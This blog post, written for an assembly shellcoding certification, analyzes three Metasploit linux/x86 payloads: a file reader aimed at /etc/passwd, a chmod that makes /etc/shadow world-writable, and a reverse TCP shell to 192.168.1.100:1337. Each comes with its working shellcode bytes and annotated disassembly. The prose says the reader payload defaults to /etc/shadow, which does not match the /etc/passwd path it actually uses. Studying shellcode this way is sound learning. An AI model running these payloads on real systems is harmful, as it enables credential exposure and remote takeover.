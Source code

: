 ```yaml
---
layout: post
title: SLAE 0x5 - Analyze at least 3 shellcode from msfpayload linux/x86
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to demonstrate Linux shellcoding knowledge by analyzing 3 different shellcode from msfpayload/msfvenom linux/x86 category.

# Methods

I used radare2 with Cutter to analyze the shellcode and display the graph call. No other tools or debuggers were harmed during the process.

# linux/x86/read_file

Simple payload that reads up to 4096 bytes from a file and writes it out onto stdout.

    root@kali:~# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 73 bytes
    Final size of c file: 331 bytes
    unsigned char buf[] = 
    "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
    "\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
    "\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
    "\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
    "\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

As this shellcode doesn't do a lot of things, it's both simple and small in size. By default msfvenom tries to read /etc/shadow, which so I left it as is. The shellcode relies on JMP-CALL-POP to push */etc/shadow* on the stack, then it starts executing the main part of the shellcode. First it calls SYS_OPEN on /etc/passwd which returns a file descriptor. Using the file descriptor, SYS_READ reads up to 4096 bytes from the file and pushes it onto the stack. The syscall also returns the actual number of bytes read, which the SYS_WRITE call uses later to read the exact number of bytes from the stack. Finally, the shellcode uses SYS_EXIT to gracefully quit.

    / (fcn) fcn.00000000 20
    |   fcn.00000000 ();
    |       ,=< 0x00000000      jmp 0x38 ; jmp to set up /etc/passwd
    / (fcn) fcn.00000002 72
    |   fcn.00000002 ();
    |       |   0x00000002      mov eax, 5 ; sys_open
    |       |   0x00000007      pop ebx ; address of "/etc/passwd"
    |       |   0x00000008      xor ecx, ecx ; null out ECX
    |       |   0x0000000a      int 0x80 ; sys_open - returns file descriptor for file
    |       |   0x0000000c      mov ebx, eax ; move file descriptor into ebx
    |       |   0x0000000e      mov eax, 3 ; sys_read
    |       |   0x00000013      mov edi, esp ; moves stack pointer into edi
    |       |   0x00000015      mov ecx, edi ; moves stack pointer into ecx
    |       |   0x00000017      mov edx, 0x1000 ; size_t count: 4096 bytes max
    |       |   0x0000001c      int 0x80 ; sys_read - attempts to read 4096 bytes onto the stack and returns the number of bytes read
    |       |   0x0000001e      mov edx, eax ; number of read bytes => size_t count
    |       |   0x00000020      mov eax, 4 ; sys_write
    |       |   0x00000025      mov ebx, 1 ; 0x1 stdout
    |       |   0x0000002a      int 0x80 ; sys_write - write EDX number of bytes from the stack to stdout
    |       |   0x0000002c      mov eax, 1 ; sys_exit
    |       |   0x00000031      mov ebx, 0 ; 0x0 error code
    |       |   0x00000036      int 0x80 ; sys_exit
    |       `-> 0x00000038      call 2 ; call part of jmp-call-pop
    |           0x0000003d      das    ; /etc/passwd

**Graph:**

![linux/x86/read_file graph]({{"/content/posts/msfvenom-readpasswd.png" | absolute_url }}){: .center}

# linux/x86/chmod

This shellcode changes the permission settings for a target file. The default setting is to change the permissions of /etc/shadow to 0666.

    root@kali:~# msfvenom -p linux/x86/chmod -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 36 bytes
    Final size of c file: 177 bytes
    unsigned char buf[] = 
    "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
    "\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
    "\x80\x6a\x01\x58\xcd\x80";

As there is a syscall for chmod (SYS_CHMOD), this shellcode is rather simple. The shellcode pushes /etc/shadow and the required arguments onto the stack, does the syscall and quits gracefully with the SYS_EXIT call.

    / (fcn) fcn.00000000 36
    |   fcn.00000000 ();
    |           0x00000000      cdq    ; sets EDX 0 if EAX is positive
    |           0x00000001      push 0xf ; 15 ; 15 - sys_chmod
    |           0x00000003      pop eax ; sys_chmod
    |           0x00000004      push edx ; push 0x0
    |           0x00000005      call 0x16 ; pushes /etc/shadow address on the stack
    |           0x0000000a      das    ; /etc/shadow
    |       ,=< 0x0000000b      je 0x71 ; data
    |       |   0x0000000e      das    ; data
    |      ,==< 0x0000000f      jae 0x79 ; data
    |      ||   0x00000011      popal  ; data
    |      ||   0x00000012           .byte 0x64 ; data
    |      ||   0x00000013      outsd dx, dword [esi] ; data
    |      ||   0x00000014      ja 0x16 ; data
    |      ||   0x00000016      pop ebx ; pops /etc/shadow address into ebx
    |      ||   0x00000017      push 0x1b6 ; 438 ; octal 0666
    |      ||   0x0000001c      pop ecx ; mode_t mode
    |      ||   0x0000001d      int 0x80 ; sys_chmod
    |      ||   0x0000001f      push 1 ; 1 ; sys_exit
    |      ||   0x00000021      pop eax ; sys_exit => eax
    \      ||   0x00000022      int 0x80 ; sys_exit


**Graph:**

![linux/x86/chmod graph]({{"/content/posts/msfvenom-chmod.png" | absolute_url }}){: .center}

# linux/x86/shell_reverse_tcp 

This shellcode connects to a host on a given TCP port and opens a /bin/sh shell.

    root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.100 LPORT=1337
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 68 bytes
    Final size of c file: 311 bytes
    unsigned char buf[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x64\x68"
    "\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

This shellcode is very similar to the one I did in Assignment 2, but the order of the syscalls is different. First the code creates a socket with SYS_SOCKETCALL-SYS_SOCKET and connects it to stdin, stdout and stderr with DUP2. After these are done, SYS_SOCKETCALL-SYS_CONNECT connects to the remote address and then the code invokes a /bin/sh shell. Other than the different order, it's basically the same workflow as the shellcode in SLAE0x2.

        / (fcn) fcn.00000000 68
    |   fcn.00000000 ();
    |           0x00000000      xor  ebx, ebx ; EBX = 0x00
    |           0x00000002      mul  ebx ; EBX * EAX => EAX = 0x00
    |           0x00000004      push ebx ; any protocol
    |           0x00000005      inc  ebx ; 0x1 - SYS_SOCKET
    |           0x00000006      push ebx ; 0x1 SOCK_STREAM
    |           0x00000007      push 2 ; 2 ; 0x2 AF_INET
    |           0x00000009      mov  ecx, esp ; call args
    |           0x0000000b      mov  al, 0x66 ; 'f' ; 102 ; sys_socketcall
    |           0x0000000d      int  0x80 ; SYS_SOCKETCALL -> SYS_SOCKET
    |           0x0000000f      xchg eax, ebx ; move file descriptor into EBX
    |           0x00000010      pop  ecx ;  call args
    |       .-> 0x00000011      mov  al, 0x3f ; '?' ; 63 ; dup2
    |       :   0x00000013      int  0x80 ; SYS_DUP2
    |       :   0x00000015      dec  ecx ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin
    |       `=< 0x00000016      jns  0x11 ; jmp if sign is positive
    |           0x00000018      push 0x6401a8c0 ; 100 1 168 192 (decimal)
    |           0x0000001d      push 0x39050002 ; 0x3905 - 1337 0x0 0x2 - AF_INET
    |           0x00000022      mov  ecx, esp ; function args
    |           0x00000024      mov  al, 0x66 ; 'f' ; 102 ; SYS_SOCKETCALL
    |           0x00000026      push eax ; 0x1
    |           0x00000027      push ecx ; function args
    |           0x00000028      push ebx ; file descriptor
    |           0x00000029      mov  bl, 3 ; 0x3 - SYS_CONNECT
    |           0x0000002b      mov  ecx, esp
    |           0x0000002d      int  0x80 ; SYS_SOCKETCALL -> SYS_CONNECT
    |           0x0000002f      push edx ; 0x0
    |           0x00000030      push 0x68732f6e ; 'n/sh'
    |           0x00000035      push 0x69622f2f ; '//bi'
    |           0x0000003a      mov  ebx, esp ; //bin/sh0x00
    |           0x0000003c      push edx ; 0x0
    |           0x0000003d      push ebx ; file descriptor
    |           0x0000003e      mov  ecx, esp ; address of //bin/sh, 0x00
    |           0x00000040      mov  al, 0xb ; 11 ; SYS_EXECVE
    \           0x00000042      int  0x80 ; SYS_EXECVE //bin/sh


**Graph:**

![linux/x86/shell_reverse_tcp graph]({{"/content/posts/msfvenom-reversetcp.png" | absolute_url }}){: .center}

# Final Thoughts

A great little challenge, it was awesome to finally understand how some of the basic msfvenom shellcodes work. After looking at them, I feel that I would probably use them later instead of larger payloads.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).